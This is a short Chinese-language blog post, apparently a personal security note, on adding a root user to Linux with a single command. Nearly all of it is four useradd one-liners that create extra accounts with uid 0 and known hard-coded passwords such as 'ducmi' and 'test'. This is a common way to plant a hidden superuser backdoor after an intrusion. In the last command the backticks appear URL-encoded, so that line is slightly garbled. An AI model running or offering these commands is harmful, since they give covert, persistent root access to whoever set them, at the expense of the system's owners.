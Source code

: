 ```yaml
---
layout:     post
title:      linux一句话加root用户
subtitle:   网络安全实施过程中快速添加root用户
date:       2023-12-18
author:     Robin
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Note
	- Linux
	- Information security
---
```

linux一句话加root用户：

快速添加root用户
=注意=：添加的用户与root相同uid，对本用户的kick操作等同于kick掉root，可能会造成系统故障
``` shell
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 ducmi` ducmi
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 t` t
或者（因不同版本命令有差别）
useradd -M  -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 test` test
或者
useradd -M -u 0 -g 0 -o -s /bin/bash -p %60openssl passwd -1 -salt 123 ducmi1%60 ducmi1```


